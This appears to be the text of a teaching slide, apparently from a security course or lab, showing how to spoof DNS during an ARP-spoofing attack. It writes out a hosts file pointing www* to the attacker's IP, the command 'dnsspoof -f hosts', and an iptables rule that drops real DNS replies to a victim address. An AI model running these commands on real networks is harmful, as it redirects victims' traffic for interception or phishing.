

# Dns spoofing while arp spoofing 2
Create a file named hosts
ip of attacker + www*

From kali run the command:
dnsspoof -f hosts

Block all respones that we are forwarding from the real DNS.
iptables -A FORWARD -p udp --source-port 53 -d 192.168.65.132 -j DROP